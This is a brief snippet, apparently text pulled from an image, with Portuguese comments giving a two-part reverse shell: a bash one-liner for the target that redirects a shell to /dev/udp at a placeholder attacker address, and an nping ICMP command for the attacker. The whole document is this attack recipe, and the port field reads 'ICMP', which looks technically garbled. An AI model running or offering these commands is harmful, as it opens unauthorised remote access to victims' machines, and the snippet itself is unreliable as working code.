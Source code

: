 # No alvo:
bash -i >& /dev/udp/SEU_IP/ICMP 0>&1

# No atacante:
sudo nping --icmp -c 1 SEU_IP --data-string "shell"

